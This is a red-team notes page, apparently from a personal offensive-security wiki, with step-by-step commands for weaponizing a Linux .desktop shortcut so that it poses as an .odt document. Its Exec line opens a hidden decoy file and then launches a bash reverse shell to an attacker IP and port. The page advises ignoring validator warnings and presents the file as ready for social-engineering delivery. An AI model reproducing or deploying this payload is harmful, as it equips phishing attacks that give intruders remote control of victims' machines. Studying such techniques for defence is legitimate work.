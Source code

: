 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - weaponization
  - client-side-attacks
  - linux
credits:
  - tokyoneon
---
```

# Manual

First create the file.

```
$ touch malicious_document.odt.desktop
```

Then insert the following keys and values.

```
$ desktop-file-edit \
--set-key="Encoding" --set-value="UTF-8" \
--set-name="document.odt" \
--set-key="Version" --set-value="1.0" \
--set-icon="libreoffice-writer" \
--set-key="Terminal" --set-value="false" \
--set-key="Exec" --set-value="libreoffice --writer \"\$(pwd)/.real_document.odt\"; /bin/bash -i >& /dev/tcp/<attacker_IP>/<attacker_PORT> 0>&1" \
--set-key="Type" --set-value="Application" \
--set-key="NoDisplay" --set-value="true" \
--set-key="Hidden" --set-value="false" \
--remove-key="X-Desktop-File-Install-Version" \
malicious_document.odt.desktop 2&>1
```

Run `desktop-file-validate` to check if there are any errors to the `.desktop`. However, you'll see false positives related to the special characters that is inserted.  So it is safe to ignore it. Now the payload is ready to deliver for social engineering.

```
$ desktop-file-validate payload.desktop
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xC - Client-Side Attacks/Delivery Methods/File Attachment/Shortcut File/Linux/Helpers|Helpers: Desktop Entries]]

### Null Byte

- [Null Byte: Pop a Reverse Shell with a Video File by Exploiting Popular Linux File Managers](https://null-byte.wonderhowto.com/how-to/pop-reverse-shell-with-video-file-by-exploiting-popular-linux-file-managers-0196078)

### DMCXBlue

- [DMCXBlue: Attachments - Desktop Files](https://dmcxblue.gitbook.io/red-team-notes-2-0/red-team-techniques/initial-access/t1566-phishing/phishing-spearphishing-attachment/attachments-desktop-files)

### Vicarius

- [Vicarius: Phishing Linux Users with Zero Detection!](https://www.vicarius.io/vsociety/posts/phishing-linux-users-with-zero-detection)